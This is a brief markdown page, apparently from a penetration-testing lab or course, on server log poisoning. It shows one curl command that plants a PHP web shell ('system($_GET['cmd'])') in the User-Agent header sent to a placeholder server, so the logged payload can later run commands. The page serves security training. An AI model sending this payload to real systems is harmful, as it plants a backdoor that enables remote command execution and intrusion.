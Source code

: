 ```yaml
---
title: Log Poisoning
---
```


## Server Log Poisoning

```
Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

<img width="989" height="232" src="assets/images/rfi_log-poison.png"/>
